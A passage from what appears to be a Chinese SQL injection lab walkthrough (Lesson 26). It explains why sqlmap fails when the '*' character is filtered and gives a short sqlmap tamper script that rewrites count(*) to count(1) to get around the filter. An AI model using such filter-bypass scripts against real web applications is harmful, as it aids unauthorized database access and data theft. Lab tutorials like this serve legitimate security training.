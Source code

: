 ![008_2](/img/sql/Lesson-26/008_2.png)

跑字段的时候出现了问题,拿不到数据。原来SQLMAP的payload中使用了`count(*)`包括了`*`，但是`*`被过滤了。自然得不出结果。

![008_3](/img/sql/Lesson-26/008_3.png)



通过查询资料可以发现`count(*)`和`count(常量)`是等价的,添加一个把`count(*)`替换成`count(1)`的脚本,命名为`count.py`

```
#!/usr/bin/env python

"""
Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

import re

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def tamper(payload, **kwargs):
    """
    >>> tamper('count(*)')
    'count(1)'
    """

    retVal = payload

    if payload:
        retVal = re.sub(r"(?i)count\(\*\)", r"count(1)", payload)

    return retVal
```
